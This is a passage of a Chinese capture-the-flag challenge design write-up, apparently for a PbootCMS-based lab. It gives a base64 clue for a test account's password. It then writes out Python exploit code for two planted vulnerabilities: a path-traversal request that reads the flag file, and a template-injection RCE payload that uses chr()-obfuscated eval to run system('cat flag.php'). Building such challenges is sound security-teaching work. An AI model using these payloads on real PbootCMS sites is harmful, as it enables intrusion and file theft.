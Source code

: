 ![MD5_416](img/MD5_416.png)

考虑到目前情况下无法通过爆破或者注入方法拿到用户名和密码，即便拿到了也无法解密出原密码，所以：

提供给解题人的 **题目线索为：检查一下 MTJAYWE0Li8oOUViOUFEKTApNw== 看看能发现什么吧~**

*线索破解出来得到用户名为 `check` , 将 `check` 用户原密码 `12@aa4./(9Eb9AD)0)7` 进行 base64 加密得到 `MTJAYWE0Li8oOUViOUFEKTApNw==`*

#### 2. Exp 设计— Build 阶段的 exp

##### 2.1 漏洞一

根据漏洞一设计的漏洞，进行 Exp 设计，利用「request 库」直接发送数据即可。

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=..././..././..././..././..././..././..././..././flag"))
```

##### 2.2 漏洞二

根据漏洞二的设计，进行「Exp」设计，同样利用「request 库」，但是需要分两步执行。

1. 发送 RCE Poc

   ```python
   def postExp(url):
       post_data = {
           'contacts': '666',
           'mobile': '1008611',
           'content': '{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}!!!{/pbootpbootpboot:if:if:if} '
       }
       response = requests.post(url, data=post_data)
       if response.status_code == 200:
           print("Exp 插入成功")
           return True
       else:
           print("Exp 插入失败，请检查网站状态，response code=" + str(response.status_code))
           return False
   
   ```

